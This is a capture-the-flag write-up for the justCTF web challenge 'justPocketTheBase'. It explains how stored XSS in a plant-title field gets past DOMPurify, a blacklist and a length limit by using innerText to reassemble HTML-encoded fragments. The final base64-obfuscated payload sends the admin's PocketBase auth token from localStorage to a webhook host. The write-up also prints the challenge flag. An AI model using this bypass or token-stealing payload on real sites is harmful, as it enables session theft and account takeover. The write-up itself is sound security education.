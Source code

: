 # justPocketTheBase

![challenge](assets/chall.png)
-![source code](assets/justpocketthebase_docker.tar.gz)

## Writeup

First, let's take a look at the website

![login](assets/login.png)

We have an authentication page that handle login and register at the same time, if we put new credentiels it will register a new account. When we log in we see a page to upload images of plants.

![upload](assets/upload.png)

Once we upload an image we can see there is a feature to report a page to admin. Looks like an XSS challenge!

![report](assets/report.png)

Now let's dig in the source code.

Looking at the Dockerfile we look that the flag is put inside an image using exiftool! Probably we will have to steal the image from the admin account.

![dockerfileprepare](assets/dockerprepare.png)

In the prepare.js code we can see that they are using [pocketbase](https://pocketbase.io/) to handle the database.

![preparejs](assets/preparejs.png)

![flaguser](assets/createflaguser.png)

After creating tables they add a user flag, and they put the flag image in the plants table associated with the flag user ID.

Let's check the code responsible for authentication, if there is any way to authenticate as flag user but I don't find any.

![logincode](assets/logincode.png)

Let's look at the report feature that we saw earlier.

![bot](assets/bot.png)

As expected, a bot will log in as flag user and will visit the plant we uploaded.

![view](assets/viewplant.png)

In the plant view page, the content of title given to our image is sanitized using [DOMPurify](https://github.com/cure53/DOMPurify). If we manage somehow to bypass that, we have another blacklist filter to deal with.

![blacklist](assets/blacklist.png)

If we bypass it, We have another obstacle, which is the length. Since it's a stored XSS the length of the title have a max value of 204 in the pocketbase db configuration.

![length](assets/titlelength.png)

![gif](assets/cat.gif)
*Filters*

First our input is given to DOMPurify, it will sanitize it from any JS execution, for example it will remove dangerous tags and attributes like script, onerror, onmouseover ...

![dompurifyshema](assets/dompurifyshema.png)

They are using a recent version of DOMPurify, that don't have any known exploits, so it's less likely to bypass it.

![version](assets/dompurifyversion.png)

The output of DOMPurify goes into innerText, let's read the [documentation](assets/https://developer.mozilla.org/en-US/docs/Web/API/HTMLElement/innerText) to see if we can make from it an XSS gadget.

![innerText](assets/innertext.png)

Here is an interesting feature that we can use, innerText will remove all the HTML tags and replace them with the value inside for example if we have `<a>scri</a><a>pt</a>` will return `script`. We can use that to hide onerror from DOMPurifiy.
But if we put `<img ...>` inside the HTML tag, it will be removed also, so we will HTML encode it. Here is the first payload:
`<a>&lt;img src='' one</a><a>rror=alert(1)&gt;</a>`

![shema2](assets/shema2.png)

Now we have to deal with the other filters, the ' ' and ( ) are blacklisted. we can replace alert(1) by alert\`1\` and remove '' in src, here is a working payload  
```
<a>&lt;img src one</a><a>rror=alert`1`&gt;</a>
```

![alert](assets/alert1.png)

Great! now we can execute a JS code, let's use it to steal the flag.

![jwt](assets/jwt.png)

In the requests sent, we can see that they are using a JWT in Authorisation header to fetch data, which is default for pocketbase.
In this [link](https://github.com/pocketbase/pocketbase/discussions/248), we find that pocketbase store tokens in localstorage, let's check that!

![console](assets/cosole.png)

Now we have to just send it to our webhook but we have to deal with additional keywords that we will use like fetch, parentheses ...
[Here](https://github.com/RenwaX23/XSS-Payloads/blob/master/Without-Parentheses.md) we find some cool ways to bypass the blacklist. We will base64 the payload and eval it to avoid blacklisted keywords, Here is the final payload:
``` 
<a>&lt;img src one</a><a>rror=eval.call`${atob`ZmV0Y2goJ2h0dHBzOi8vd2ViaG9vay5zaXRlLzk3NThmMGZkLTk2NTgtNGUxMi1iNTM3LWNkODA0NTRiODI2MC8nK2J0b2EobG9jYWxTdG9yYWdlLnBvY2tldGJhc2VfYXV0aCkp`}`&gt;</a> 
```

it has less than 200 characters so we are good to go!

![webhook](assets/webhook.png)

Now we can retreive all plants of the flag user.

![flag](assets/flag.png)

flag: justCTF{97603333-6596-43fe-aef8-a134c1cc11b4}
